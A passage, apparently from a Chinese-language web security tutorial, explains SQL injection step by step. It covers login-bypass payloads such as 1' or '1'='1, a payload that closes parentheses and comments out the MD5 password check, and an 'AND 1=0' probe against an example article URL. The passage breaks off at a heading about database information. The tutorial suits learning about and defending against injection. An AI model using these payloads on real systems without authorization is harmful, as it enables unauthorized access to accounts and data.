 我们对username和password构造一种特殊的输入：

```plain
$username = 1' or '1' = '1
$password = 1' or '1' = '1

```

代入参数后，SQL查询语句变成：

```sql
SELECT * FROM users WHERE username='1' or '1' = '1' AND password='1' or '1' = '1';

```

可以发现，在上述SQL语句中，不管 `or` 和 `AND` 操作符谁的优先级高， `WHERE` 语句的条件都是永远为真的，因此我们可以通过这个操作，实现认证过程的绕过。

接下来，我们对原始SQL语句进行一次升级，这种升级后的语句也是非常常见的：

```sql
SELECT count(*) FROM users WHERE ((username='$username') AND (password=MD5('$password')));

```

可以看到，这次升级一方面在username部分新增了括号，另一方面在处理password时，选择了MD5散列结果进行比较，最后又统计了查询结果的数量，经过升级之后，上一次的构造就无法生效了。

这时，如果我们想要构造新的参数完成SQL注入，就要解决三个问题， **第一是括号的闭合，第二是password部分的比对，第三是要确保查询数量为1。** 于是我们构造如下输入：

```plain
$username = 1' or '1' = '1')) LIMIT 1 --
$password = test

```

将参数代入后查询语句变成：

```sql
SELECT count(*) FROM users WHERE ((username='1' or '1' = '1')) LIMIT 1 --') AND (password=MD5('$password')));

```

可以发现上述SQL语句实现了括号的闭合、忽略了password判断部分，并且限制结果数量为1，这段语句同时满足了3个限制条件，成功实现了SQL注入攻击。

在基本起手式阶段，除了这种使用 `'` 来进行注入探测的方式以外，我们还可以使用 `AND` 符号来判断参数是否可以被当做运算符参与代码执行。以常见的CMS类型系统为例，常见的帖子链接如下：

```plain
https://example.com/article.php?id=1

```

在已知【id=1帖子】存在的情况下，我们可以将id参数设置为 `1 AND 1=0`，并且和SQL语句完成拼接：

```sql
SELECT * from articles WHERE article_id = 1 AND 1=0;

```

如果该页面无法显示内容，就说明 `1 AND 1=0` 中后半部分的False结果参与了运算，依此可以判断SQL注入漏洞的存在。

#### 数据库信息
